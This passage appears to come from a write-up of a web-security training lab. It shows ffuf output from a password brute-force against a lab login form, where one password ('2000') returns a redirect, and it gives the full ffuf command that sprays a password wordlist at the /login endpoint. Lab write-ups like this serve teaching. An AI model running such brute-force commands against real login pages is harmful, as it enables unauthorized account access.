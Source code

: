 ```
michael                 [Status: 200, Size: 3234, Words: 1320, Lines: 65]
123123                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
121212                  [Status: 200, Size: 3249, Words: 1329, Lines: 66]
password                [Status: 200, Size: 3232, Words: 1320, Lines: 65]
1234                    [Status: 200, Size: 3231, Words: 1320, Lines: 65]
asdfgh                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
football                [Status: 200, Size: 3249, Words: 1329, Lines: 66]
batman                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
12345                   [Status: 200, Size: 3233, Words: 1320, Lines: 65]
123qwe                  [Status: 200, Size: 3234, Words: 1320, Lines: 65]
sunshine                [Status: 200, Size: 3250, Words: 1329, Lines: 66]
andrew                  [Status: 200, Size: 3234, Words: 1320, Lines: 65]
1234567                 [Status: 200, Size: 3233, Words: 1320, Lines: 65]
tigger                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
iloveyou                [Status: 200, Size: 3251, Words: 1329, Lines: 66]
2000                    [Status: 302, Size: 0, Words: 1, Lines: 1]
charlie                 [Status: 200, Size: 3235, Words: 1320, Lines: 65]
robert                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
thomas                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
taylor                  [Status: 200, Size: 3248, Words: 1329, Lines: 66]
matrix                  [Status: 200, Size: 3232, Words: 1320, Lines: 65]
austin                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
monitoring              [Status: 200, Size: 3232, Words: 1320, Lines: 65]
montana                 [Status: 200, Size: 3231, Words: 1320, Lines: 65]
moscow                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
moon                    [Status: 200, Size: 3232, Words: 1320, Lines: 65]
:: Progress: [100/100] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```


Then we can see that most of the attempts returned the status code `200` and try running the command again, filtering the results by the status code, leaving us with the only attempt that returned a different one:


```bash
$ ffuf -u https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login --data "username=as&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -X POST -x http://127.0.0.1:8080 -w ~/tools/wordlists/burp/password.txt -mc all -fc 200
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login
 :: Wordlist         : FUZZ: /home/zetsu/tools/wordlists/burp/password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=as&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 200
________________________________________________

```